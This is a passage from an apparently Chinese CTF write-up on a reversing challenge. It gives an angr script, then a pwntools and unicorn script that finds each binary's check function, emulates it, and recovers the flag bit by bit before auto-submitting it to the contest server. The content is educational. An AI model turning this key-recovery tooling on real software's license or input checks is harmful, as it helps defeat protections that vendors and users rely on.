import claripy

for id in range(2, 16):
    p = angr.Project('chals/%d.bin' % id)
    flag_chars = [claripy.BVS('flag_%d' % i, 8) for i in range(16)]
    flag = claripy.Concat(*flag_chars + [claripy.BVV(b'\n')])
    st = p.factory.entry_state(
        args=['a'],
        stdin=flag
    )
    for k in flag_chars:
        st.solver.add(k < 0x7f)
        st.solver.add(k > 0x20)
    sm = p.factory.simulation_manager(st)
    sm.run()

    for x in sm.deadended:
        if b"Correct" in x.posix.dumps(1):
            print(id, x.posix.dumps(0))
```

### 什么叫无情的逆向机器

对着 16.bin 跑 angr，跑了一段时间，发现不太能跑出来，遂手动分析。

`main` 函数非常简洁：



这个 `sub_1980` 调用了 `sub_1160`：



而 `sub_1160` 里面就是群魔乱舞了：


经过对几个 binary 的观察，我发现整个计算过程包含了位运算、加减法、乘法（可能是 IDA 把 $a+a$ 识别成了 $2\times a$），但是没有除法或者右移；而最后总是判断一个 64 位整数是否是 0，并返回这个作为结果。

这意味着，如果把整个函数当成一个黑箱 $f(a,b,c,d)=[g(a,b,c,d)\neq 0]$，那么 $g(a\bmod 2^n,b\bmod 2^n,c\bmod 2^n,d\bmod 2^n)=g(a,b,c,d)\bmod 2^n$。由于我们最终要求 $g(a,b,c,d)=0$，可以从低到高逐位确定 $c$ 和 $d$ 的值，并代入 $g$ 检查。

代入 $g$ 可以使用 unicorn 完成，而找到对应的函数、参数等，可以用 pwntools 完成。具体代码如下：

```python
import time, requests
from pwn import *
from unicorn import *
from unicorn.x86_const import *

context.arch = 'amd64'


# 在 elf 的 addr 处读取一条指令，返回长度与 disasm
def read_one(elf, addr):
    if 'cache' not in elf.__dict__:
        elf.cache = {}
    if addr in elf.cache:
        return elf.cache[addr]
    t = disasm(elf.read(addr, 0x200), addr).split('\n')
    i = 0
    while i < len(t) - 10:
        a, b = t[i:i + 2]
        ra = a[40:]
        bc = len(a[10:40].split())
        ni = i + 1
        if len(b) < 40:
            bc += len(b[10:40].split())
            ni = i + 2
        elf.cache[int(a[:8], 16)] = (bc, ra)
        i = ni
    return elf.cache[addr]


# 分析这个 elf
def analyze(elf):
    p = elf.entrypoint
    while True:
        x, c = read_one(elf, p)
        if c.startswith('lea    rdi, [rip+'):
            break
        p += x
    main = int(c[c.find('#') + 2:], 16)
    print('main:', hex(main)) # 先找到 main 函数（因为没有符号表，只能从 start 找）

    p = main
    cnt = 0
    while True:
        x, c = read_one(elf, p)
        if c.startswith('call'):
            cnt += 1
            if cnt == 3:
                break
        p += x
    func1_addr = int(c[4:].strip(), 16)
    print('func1:', hex(func1_addr)) # 找到第一个调用的函数（即上面的 sub_1980）

    p = func1_addr
    arg1 = None
    arg2 = None
    while True:
        x, c = read_one(elf, p)
        if c.startswith('movabs rdi, '):
            arg1 = int(c[12:], 16)
        if c.startswith('movabs rsi, '):
            arg2 = int(c[12:], 16)
        if c.startswith('call'):
            break
        p += x

    func2_addr = int(c[4:].strip(), 16)
    print('func2:', hex(func2_addr), hex(arg1), hex(arg2)) # 找到第二个函数及参数

    p = func2_addr
    while True:
        x, c = read_one(elf, p)
        if c.startswith('setne'): # setne 就是最后判 0 的指令，他前面一条则是计算结果
            print(lstc)
            reg = lstc[7:lstc.find(',')]
            finalp = p
        if c.startswith('ret'):
            break
        lstc = c
        p += x

    print('final:', hex(p), reg)

    return func2_addr, p, arg1, arg2, finalp, reg


stack = 0x1337000
stack_size = 0x100000


# 模拟器，简单封装了一下 unicorn
class Emu:
    def __init__(self, fn):
        elf = ELF(fn)
        self.func2_addr, func2_end, self.arg1, self.arg2, self.func2_snz, reg = analyze(elf)
        self.reg = globals()['UC_X86_REG_' + reg.upper()]
        self.mu = Uc(UC_ARCH_X86, UC_MODE_64)
        self.mu.mem_map(0, 0x10000)
        self.mu.mem_write(self.func2_addr, elf.read(self.func2_addr, func2_end + 2 - self.func2_addr))
        print(hex(self.func2_addr), hex(func2_end))
        self.mu.mem_map(stack, stack_size)

    def emu(self, arg3, arg4):
        self.mu.reg_write(UC_X86_REG_RDI, self.arg1)
        self.mu.reg_write(UC_X86_REG_RSI, self.arg2)
        self.mu.reg_write(UC_X86_REG_RDX, arg3)
        self.mu.reg_write(UC_X86_REG_RCX, arg4)
        self.mu.reg_write(UC_X86_REG_RSP, stack + stack_size - 8)
        self.mu.emu_start(self.func2_addr, self.func2_snz)
        return self.mu.reg_read(self.reg)


# 攻击函数，dfs 枚举当前位的所有可能
def attack(e, bits, x, y):
    r = e.emu(x, y)
    if r & (1 << bits) - 1:
        return None
    if bits == 64:
        return x, y
    for i in range(2):
        for j in range(2):
            t = attack(e, bits + 1, x | i << bits, y | j << bits)
            if t is not None:
                return t
    return None


cookie = 'xxx'
ssid = 'xxx'

tm = time.time()
for id in range(16 + 36, 256):
    e = Emu('chals_p3/%d.bin' % id)
    a, b = attack(e, 0, 0, 0)
    flag = a.to_bytes(8, 'little') + b.to_bytes(8, 'little')
    print(id, flag)
    headers = {'cookie': cookie + ssid}
    time.sleep(6 - (time.time() - tm))
    r = requests.post('http://202.38.93.111:13768/submit', data={'ans': flag}, headers=headers, allow_redirects=False)
    tm = time.time()
    ssid = r.headers['set-cookie']
    ssid = ssid[:ssid.find(';')]
    print(ssid)

r = requests.get('http://202.38.93.111:13768/submit', headers=headers)
print(r.text)
```

